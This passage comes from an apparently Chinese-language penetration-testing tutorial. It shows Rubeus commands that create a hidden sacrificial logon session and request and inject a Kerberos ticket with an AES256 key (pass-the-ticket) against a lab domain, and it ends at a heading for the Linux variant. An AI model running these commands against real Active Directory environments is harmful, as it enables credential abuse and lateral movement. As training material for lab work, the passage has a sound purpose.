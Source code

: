**2. Rubeus - PowerShell Remoting with Pass the Ticket**

Rubeus 有一个选项`createnetonly`，它创建一个牺牲过程/登录会话（[登录类型 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)）。进程默认是隐藏的，但是我们可以指定flag`/show`来显示进程，结果相当于`runas /netonly`. 这可以防止擦除当前登录会话的现有 TGT。

```shell
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
c:\tools>powershell
```

### 3. Linux 传递票证 (PtT)
